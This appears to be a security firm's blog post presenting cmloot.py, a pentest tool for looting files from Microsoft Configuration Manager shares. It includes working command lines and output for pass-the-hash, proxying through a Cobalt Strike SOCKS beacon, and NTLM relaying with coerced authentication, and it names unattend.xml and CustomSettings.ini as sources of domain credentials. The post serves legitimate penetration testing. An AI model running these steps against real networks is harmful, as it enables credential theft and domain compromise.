





TL;DR
The newly released cmloot.py tool allows you to do all the stuff you love
from CMLoot, but with enhanced capabilities, such as relaying and PtH.. and of
course it runs natively on Linux.
Github: https://github.com/shelltrail/cmloot
Follow us on Linkedin for more security related information: https://www.linkedin.com/company/shelltrail
Background
Configuration Manager is absolutely the new black in terms of security research as many new techniques and attacks have surfaced lately and showed that the complex nature of Configuration Manager may become a security risk for companies. As Configuration Manager runs in most organizations it is well spent time to learn both how to attack and defend this service. As an icing on the cake, Configuration Manager usually contains high privileged accounts or accounts with implicit high privileges, which makes Configuration Manager a lucrative target for attackers (and pentesters).
Configuration Manager is a software developed by Microsoft which helps organizations to automatically deploy operating systems and software. Being tightly integrated in Active Directory requires the server to store credentials for various services, some of which have high privileges. Most often the Configuration Manager server will have the ability to install agents on all Windows machines it manages, which requires local administrative privileges on each target. This means that a compromise of Configuration Manager could lead to lateral movement to a multitude of systems.
Before diving in to the tooling and the extended features, a bigshout out to Tomas Rzepka who is the inspiration behind this tool with his own CMLoot, which have generated multiple domain compromise paths. Cheers!
Presenting: cmloot.py
Much like Tomas Rzepka’s Powershell version, cmloot.py is built to aid penetration
testers to search and find
sensitive files in Configuration Manager’s complex file share structure.
cmloot.py is written in python and takes advantage of Impacket’s1 SMB protocol
implementation which
enables all practical features gained from the SMB classes such as pass-the-hash,
Kerberos, SOCKS supports and all stunts possible with NTLM-relaying.
Before being able to test the possibilities of cmloot.py you need to find a Configuration
Manager server or Configuration Manager Distribution Point which shares the SCCMContentLib$
folder.
This share is reachable by default with only Domain Users or Domain Computers
membership.

This share in turn contains three folders, DataLib, FileLib and PkgLib.

The shares combined, creates a complex file structure which is optimized and scalable for large Configuration Manager installations with servers deployed world wide.
The reason for being complex and in turn scalable is that the DataLib folder only stores
.INI-files which contains hash values for the
real file. The real file can be found in the FileLib where it is stored in a folder named after
the first four characters of the hash value.



If you are attempting to search and download multiple files this becomes tedious work.
cmloot.py automates this by building an inventory of all files stored in the
DataLib share, which is then used as a reference for the files that can be downloaded.
user@adpen1:~/cmloot$ python3 cmloot.py test.local/test-lowpriv@sccm01 -cmlootinventory sccmfiles.txt
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
[+] Access to SCCMContentLib
[+] sccmfiles.txt created
user@adpen1:~/cmloot$ cat sccmfiles.txt
\\sccm01\SCCMContentLib$\DataLib\XYZ00001.1\amd64\cmi2migxml.dll
\\sccm01\SCCMContentLib$\DataLib\XYZ00001.1\amd64\Config_AppsAndSettings.xml
\\sccm01\SCCMContentLib$\DataLib\XYZ00001.1\amd64\Config_AppsOnly.xml
\\sccm01\SCCMContentLib$\DataLib\XYZ00001.1\amd64\Config_SettingsOnly.xml
\\sccm01\SCCMContentLib$\DataLib\XYZ00001.1\amd64\csiagent.dll
[...]
Next up you specify the file extensions of the files that should be downloaded.
By default this is .INI, .XML and .CONFIG. The downloaded files will be
stored in a folder called CMLootOut if nothing else is specified..
user@adpen1:~/cmloot$ python3 cmloot.py test.local/test-lowpriv@sccm01 -cmlootdownload sccmfiles.txt
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
[+] Extensions to download ['XML', 'INI', 'CONFIG']
[+] Creating CMLootOut
[+] Downloaded D204-Config_AppsAndSettings.xml
[+] Downloaded 32AF-Config_AppsOnly.xml
[+] Downloaded B852-Config_SettingsOnly.xml
[+] Downloaded C7F4-MigApp.xml
[+] Downloaded CF90-MigDocs.xml
[+] Downloaded E67A-MigUser.xml
[+] Downloaded F906-ep_defaultpolicy.xml
user@adpen1:~/cmloot$ ls CMLootOut/
32AF-Config_AppsOnly.xml D204-Config_AppsAndSettings.xml
B852-Config_SettingsOnly.xml E67A-MigUser.xml
C7F4-MigApp.xml F906-ep_defaultpolicy.xml
CF90-MigDocs.xml
Files that commonly appear on a Configuration Manager server that will help
you carve your way to Domain Admin is unattend.xml and CustomSettings.ini
unattend.xml usually stores the domain-join account username and password where
the highlighted risks with the exposure of this account can be read in this article:
Active Directory domain (own)join accounts
CustomSettings.ini can be used much as the unattend.xml for domain join actions with the fun
addition that the username and password will be stored in the key DomainAdmin= and DomainAdminPassword=
(Do not get to excited by the naming, you should be lucky/unlucky if you gain Domain Admin
credentials from this file depending on what side of the attack you are.)
While these features are in line with the previously released tool for powershell,
cmloot.py adds some interesting new features to further extend the exploitability
of Configuration Manager. Let’s have a look at these in the following examples.
Examples
Pass-the-hash with a user account:
user@adpen1:~/cmloot$ python3 cmloot.py test.local/test-lowpriv@sccm01 -cmlootdownload sccmfiles.txt -extensions CAB -hashes 0:981f69b7d59d4cc73d1ee05b98981e9c
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
[+] Extensions to download ['CAB']
[+] Downloaded 1A6D-ccmsetup.cab
[+] Downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
Pass-the-hash computer account:
user@adpen1:~/cmloot$ python3 cmloot.py test.local/DEMOMACHINE\$@sccm01 -cmlootdownload sccmfiles.txt -extensions CAB -hashes 0:de22a35159cdf85a91db9a67d08f383a
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
[+] Extensions to download ['CAB']
[+] Already downloaded 1A6D-ccmsetup.cab
[+] Already downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
Could you use it with proxychains and a Cobalt Strike SOCKS5 beacon? I’m glad you asked…
user@adpen1:~/cmloot$ proxychains python3 cmloot.py TEST.LOCAL/TEST-LOWPRIV@sccm01 -n -cmlootdownload sccmfiles.txt -extensions CAB
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
|S-chain|-<>-127.0.0.1:1080-<><>-100.64.5.221:445-<><>-OK
[+] Extensions to download ['CAB']
[+] Already downloaded 1A6D-ccmsetup.cab
[+] Already downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
With NTLM-relaying? Of course!
Start a ntlmrelay.py instance:
user@adpen1:~$ ntlmrelayx.py -socks -t 100.64.5.221 -smb2support --no-http-server --no-wcf-server --no-raw-server
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
* Debug mode: off
Trigger SMB interaction for example with MS-RPRN FindFirstRprinter
via dementor.py
user@adpen1:~/tools$ python3 dementor.py 100.64.5.25 DEMOMACHINE -u test-lowpriv -p Spettekaka1 -d test.local
[*] connecting to DEMOMACHINE
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
SOCKS sessions is now available from ntlmrelayx.py
ntlmrelayx> finished_attacks
smb://TEST\DEMOMACHINE$@100.64.5.221
Run cmloot.py trough proxychains relaying through ntlmrelayx.py:
user@adpen1:~/cmloot$ proxychains python3 cmloot.py TEST/DEMOMACHINE\$@100.64.5.221 -n -cmlootdownload sccmfiles.txt -extensions CAB
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra
|S-chain|-<>-127.0.0.1:1080-<><>-100.64.5.221:445-<><>-OK
[+] Extensions to download ['CAB']
[+] Already downloaded 1A6D-ccmsetup.cab
[+] Already downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
Conclusion
By porting the PowerShell version of CMLoot to cmloot.py, pentesters and
assessors will have a more versitile tool in their arsenal which can be used
to assess Configuration Manager from more angles and in turn help organizations
to build up their reciliance against external threats.